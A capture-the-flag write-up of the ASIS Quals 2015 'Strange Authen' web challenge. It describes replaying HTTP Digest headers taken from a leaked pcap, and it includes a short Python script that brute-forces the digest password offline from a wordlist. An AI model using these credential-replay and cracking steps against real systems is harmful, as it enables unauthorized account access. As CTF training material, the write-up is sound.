 # ASIS Quals CTF 2015: Strange Authen

**Category:** Web
**Points:** 225
**Solves:** 12
**Description:**

> Go [there](http://strangeauthen.asis-ctf.ir/) and find the flag.

## Write-up

After spend sometimes to find some vulnerabilities with no luck I check robots.txt, there was an important path there and it was misc folder contains pcap file. So take a look at pcap and filter with ‘http && ip.dst == 217.218.48.85’ and get some interesting packets:

	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="admin", realm="this page for admin only, go out", nonce="5549f5f40edf1", uri="/login.php", response="d9ace07007cb801fa28a3bba92ddd515", opaque="e7c2664182934b3197e2e8dc48dbcf41", qop=auth, nc=00000393, cnonce="e7c3a4eefacfefbb"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/login.php", response="d9b58c347f96195884ce27036f3c9546", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000001, cnonce="d6d1a0a39a93b4c3"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/index.html
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /7he_most_super_s3cr3t_page.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/7he_most_super_s3cr3t_page.php", response="587bb0cf4968b88fdf00c8ae81ff8bf4", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000002, cnonce="bd65e746ecf4d7e7"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/login.php
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22

At first I try to login by changing Authorization with Tamper data, the first one doesn’t work the second one, BOOM…
I logged in as factorial so let see most secret page… It needs to login! Lets try the 3rd one, no luck…
So what’s the point, it’s digest access authentication so maybe I should bruteforce the password, lets ask google and the first result was Wikipedia ‘Digest access authentication’.
The example points to 3 important things:

	1. The MD5 hash of the combined username, authentication realm and password is calculated. The result is referred to as HA1.
	2. The MD5 hash of the combined method and digest URI is calculated, e.g. of "GET" and "/dir/index.html". The result is referred to as HA2.
	3. The MD5 hash of the combined HA1 result, server nonce (nonce), request counter (nc), client nonce (cnonce), quality of protection code (qop) and HA2 result is calculated. The result is the "response" value provided by the client.

We have everything except password:

	username="factoreal"
	realm="this page for admin only, go out now!"
	nonce="554aed8c0b2d8"
	uri="/login.php"
	response="d9b58c347f96195884ce27036f3c9546"
	qop=auth
	nc=00000001
	cnonce="d6d1a0a39a93b4c3"

I ask about password type and admin points to the top password lists, so I write my script to bruteforce and I just need to password list that contains our goal:

	import hashlib
	
	password = open('passwords.txt').read().splitlines()
	h2 = hashlib.md5("GET:/login.php").hexdigest()
	for i in range(len(password)):
		h1 = hashlib.md5("factoreal:this page for admin only, go out now!:" + password[i]).hexdigest()
		result = hashlib.md5(h1 + ":554aed8c0b2d8:00000001:d6d1a0a39a93b4c3:auth:" + h2).hexdigest()
		if result == "d9b58c347f96195884ce27036f3c9546":
			print "[*] Password found: " + password[i]
			exit()

I try some password list and it was really hard to find the best one, but finally it works and I find the password:

	[*] Password found: secpass

So let’s login again. It works, but stuck on visiting top secret page…  I try to sync admin content with my own, PHPSESSID and UserAgent, another try and it doesn’t work! I ask admin and he tells that I’m in right way, but why it doesn’t work! He points to change cookie date and I do it, change that to 2016 and try again, let’s check the page:

	Welcome factoreal, nice to see you again!
	Congratz! Great you found me!

And here is the Flag:

	ASIS{004efe5ec5867811f4f13bc8f9921517}

## Other write-ups and resources

* <https://ucs.fbi.h-da.de/writeup-asis-ctf-quals-2015-strange-authen/>

